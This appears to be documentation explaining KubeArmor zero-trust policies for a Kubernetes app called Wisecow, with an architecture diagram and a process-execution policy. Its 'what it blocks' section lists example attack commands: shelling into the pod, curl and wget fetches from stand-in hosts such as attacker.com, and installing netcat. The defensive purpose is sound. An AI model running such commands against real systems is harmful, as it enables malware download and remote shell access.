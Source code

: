 # KubeArmor Zero-Trust Security for Wisecow
---

## KubeArmor Architecture

```
┌────────────────────────────────────────┐
│          Kubernetes Cluster            │
│  ┌────────────────────────────────┐    │
│  │      Wisecow Pod               │    │
│  │  ┌──────────────────────┐      │    │
│  │  │  Application Process  │     │    │
│  │  └──────────┬────────────┘     │    │
│  │             │                  │    │
│  │             ▼                  │    │
│  │  ┌──────────────────────┐      │    │
│  │  │  KubeArmor Agent     │      │    │
│  │  │  (eBPF/LSM Monitor)  │      │    │
│  │  └──────────┬────────────┘     │    │
│  └─────────────┼──────────────────┘    │
│                │                       │
│                ▼                       │
│  ┌──────────────────────────┐          │
│  │  KubeArmor Controller    │          │
│  │  (Policy Enforcement)    │          │
│  └──────────────────────────┘          │
└────────────────────────────────────────┘
```

**How it works:**
1. **eBPF Monitoring**: Kernel-level monitoring without code changes
2. **Policy Evaluation**: Checks every system call against policies
3. **Enforcement**: Blocks or audits violations in real-time
4. **Logging**: Records all security events

---

# Security Policies Explained

## Policy 1: Process Execution Restrictions

**File**: `wisecow-restrict-process-execution.yaml`

**Purpose**: Prevent attackers from executing shells and downloading malware

**What it blocks:**
```bash
# These commands will be blocked:
kubectl exec wisecow-pod -- /bin/sh
kubectl exec wisecow-pod -- /bin/bash
kubectl exec wisecow-pod -- curl http://malicious.com/malware
kubectl exec wisecow-pod -- wget http://attacker.com/script.sh
kubectl exec wisecow-pod -- apt-get install netcat
```
